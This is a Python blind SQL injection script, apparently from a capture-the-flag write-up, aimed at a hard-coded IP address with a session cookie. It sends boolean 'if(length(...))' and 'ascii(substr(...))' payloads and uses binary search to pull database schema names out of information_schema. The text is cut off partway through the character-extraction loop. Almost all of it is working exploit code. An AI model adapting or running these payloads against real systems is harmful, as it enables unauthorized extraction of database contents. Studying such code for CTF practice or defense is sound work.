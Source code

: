 ```python
url = "http://35.227.24.107/2116b46989/fetch"
cookie = "d8iuvjr50tjvrmaj2gf97ts6bl"
headers= {'Cookie':'PHPSESSID='+cookie}

def attack(attack_sql):
    attack_url = url + "?id=1" + urllib.parse.quote(attack_sql)
    #print(attack_url)
    res = requests.get(attack_url, headers=headers,verify=False)
    #print(res.text)
    return res

def create_length_query(md,times):
    query = " and if(length((SELECT table_schema from  information_schema.columns group by table_schema limit " +str(times) + ",1)) >= " + str(md) + ",1=1,1=3) -- -"
    #print(query)
    return query

def create_2tansaku_query(md,i,times):
    query = " and if(ascii(substr((SELECT table_schema from  information_schema.columns group by table_schema limit " +str(times) +",1)," +str(i) + ",1)) >= " + str(md) + ",1=1,1=3) -- -"
    #print(query)
    return query


def check_result(res):
    if '404 Not Found' in res.text:
        return False
    if '500 Internal Server Error' in res.text:
        return False
    return True

### main     ###
####################

def exploit_length(times):
    ok = 0
    ng = 100
    while ok + 1 != ng:
        md = (ok + ng) // 2
        print("    [+] try " + str(md) + "  times:" + str(times))
        query = create_length_query(md,times)
        res = attack(query)
        if check_result(res):
            ok = md
        else:
            ng = md
    print("")
    print("length: " + str(ok) + "  " +str(times) + " times")
    print("")
    return ok
        
def exploit_2tansaku(length,times):
    fix_pass = ""
    for i in range(0,length):
        ok = 0
        ng = 127
        while ok + 1!= ng:
            md = (ok + ng) // 2
            print("    [+] try " + str(md) + "  i: " + str(i) + "  times:" + str(times))
            query = create_2tansaku_query(md,i+1,times)
            res = attack(query)
            if check_result(res):
                ok = md
```